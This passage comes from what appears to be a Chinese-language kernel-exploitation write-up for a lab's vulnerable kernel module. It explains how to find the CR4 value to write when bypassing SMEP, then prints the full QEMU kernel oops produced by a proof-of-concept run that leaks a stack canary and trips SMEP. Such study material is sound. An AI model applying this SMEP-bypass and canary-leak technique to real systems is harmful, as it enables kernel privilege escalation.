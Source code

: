 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如果问我cr4为啥要赋值0x6f0的话，触发一次smep保护就能看到cr4的值了，然后做cr4&0xFFFF就是你要放入栈的值，触发保护的代码我也写在了脚本的注释里，那么再放一下触发保护后的kernel错误信息吧：</font></br>

```shell
/mytest $ ./poc
[    7.355801] [i] Module vuln: open()
[    7.363907] [i] Module vuln: read()
[    7.370204] buf:@
canary:0x72cf6cae09af749c
[    7.401893] [i] Module vuln write: hello,world
[    7.417195] unable to execute userspace code (SMEP?) (uid: 1000)
[    7.417195] BUG: unable to handle kernel paging request at 00000000004010d9
[    7.417195] IP: [<00000000004010d9>] 0x4010d9
[    7.417195] PGD 62dd067 PUD 62dc067 PMD 62cb067 PTE 69025
[    7.417195] Oops: 0011 [#1] SMP
[    7.417195] Modules linked in: kmod(O)
[    7.417195] CPU: 0 PID: 99 Comm: poc Tainted: G           O    4.4.72 #2
[    7.417195] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Bochs 01/01/2011
[    7.417195] task: ffff880006071980 ti: ffff880000830000 task.ti: ffff880000830000
[    7.417195] RIP: 0010:[<00000000004010d9>]  [<00000000004010d9>] 0x4010d9
[    7.417195] RSP: 0018:ffff880000833e58  EFLAGS: 00000282
[    7.417195] RAX: 0000000000000090 RBX: ffff88000622f300 RCX: 0000000000000000
[    7.417195] RDX: 0000000000000000 RSI: ffff880000833ddf RDI: ffff88000082c000
[    7.417195] RBP: ffff880000833f20 R08: ffff88000082c090 R09: 0000000000000069
[    7.417195] R10: ffff880000833f20 R11: 656c75646f4d205d R12: ffff880000833f20
[    7.417195] R13: 00007ffc9e0b99b0 R14: 0000000000000090 R15: 0000000000000000
[    7.417195] FS:  000000000207a880(0063) GS:ffff880007a00000(0000) knlGS:0000000000000000
[    7.417195] CS:  0010 DS: 0000 ES: 0000 CR0: 000000008005003b
[    7.417195] CR2: 00000000004010d9 CR3: 00000000062d2000 CR4: 00000000001006f0
[    7.417195] DR0: 0000000000000000 DR1: 0000000000000000 DR2: 0000000000000000
[    7.417195] DR3: 0000000000000000 DR6: 0000000000000000 DR7: 0000000000000000
[    7.417195] Stack:
[    7.417195]  ffffffff811faad8 ffff880000000000 ffff880000833e78 ffffffff813684d8
[    7.417195]  ffff880000833ea8 ffffffff8132a93d 0000000000000090 ffff88000622f300
[    7.417195]  00007ffc9e0b99b0 0000000000000090 ffff880000833ec8 ffffffff811fb023
[    7.417195] Call Trace:
[    7.417195]  [<ffffffff811faad8>] ? __vfs_read+0x28/0xe0
[    7.417195]  [<ffffffff813684d8>] ? apparmor_file_permission+0x18/0x20
[    7.417195]  [<ffffffff8132a93d>] ? security_file_permission+0x3d/0xc0
[    7.417195]  [<ffffffff811fb023>] ? rw_verify_area+0x53/0xf0
[    7.417195]  [<ffffffff811fb299>] ? vfs_write+0xa9/0x190
[    7.417195]  [<ffffffff81066c6a>] ? __do_page_fault+0x1ba/0x410
[    7.417195]  [<ffffffff811fbfa6>] ? SyS_write+0x46/0xa0
[    7.417195]  [<ffffffff817e5736>] ? entry_SYSCALL_64_fastpath+0x16/0x75
[    7.417195] Code:  Bad RIP value.
[    7.417195] RIP  [<00000000004010d9>] 0x4010d9
[    7.417195]  RSP <ffff880000833e58>
[    7.417195] CR2: 00000000004010d9
[    7.430146] ---[ end trace 135e42896f7baea5 ]---
[    7.435250] [i] Module vuln: close()
Killed
/mytest $
```

